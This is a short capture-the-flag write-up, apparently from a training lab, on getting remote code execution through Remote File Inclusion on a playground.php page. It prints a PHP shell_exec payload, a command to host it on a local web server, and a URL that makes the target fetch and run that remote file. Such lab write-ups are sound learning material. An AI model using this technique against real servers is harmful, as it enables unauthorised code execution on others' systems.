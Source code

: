 # Gain RCE in Lab #Playground /playground.php with RFI to execute the hostname command. What is the output?
The web page simply shows a normal form to apply any techinique. In this challenge we have to execute a RFI (Remote File Inclusion).

To do that, we have to create a script file, host a web server and redirect to our URL page file to display the content of the server.

In this challenge, it only needs the hostname of the machine, so I created a file called "attackRFI.txt" including the following code.
```
echo <?php echo shell_exec("hostname");?>
```
Then hosted my web server.
```
$ python -m http.server
```
And executed the followed payload.

```
http://MACHINE_IP/playground.php?file=http://MY_WEB_SERVER_IP:8000/attackRFI.txt
```

Giving us the flag

![alt text]("Challenge 4 - RFI flag")
